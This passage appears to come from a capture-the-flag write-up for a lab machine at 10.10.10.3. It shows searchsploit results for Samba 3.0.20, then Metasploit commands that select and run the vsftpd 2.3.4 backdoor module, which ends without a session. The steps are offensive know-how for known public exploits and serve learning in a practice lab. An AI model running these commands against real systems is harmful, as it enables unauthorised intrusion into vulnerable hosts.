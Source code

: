 3. Samba 3.0.20 (Vulnerable)
```shell
searchsploit samba 3.0.20     
--------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                     |  Path
--------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                             | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                   | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                              | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                      | linux_x86/dos/36741.py
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results


```


Both FTP and samba are vulnerable and have a metasploit module.

lets run Metasploit and try to enumerate both

## Metasploit

### Enumerating vsftpd 2.3.4
start metasploit with 

```shell
msfconsole
```


selecting the exploit

```shell
search vsftpd 2.3.4

use exploit/unix/ftp/vsftpd_234_backdoor

show options


```

we selected the exploit now we have to set the RHOSTS to the box IP and run the exploit

```shell
set RHOSTS 10.10.10.3

run

->
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
  
[*] Exploit completed, but no session was created.
```
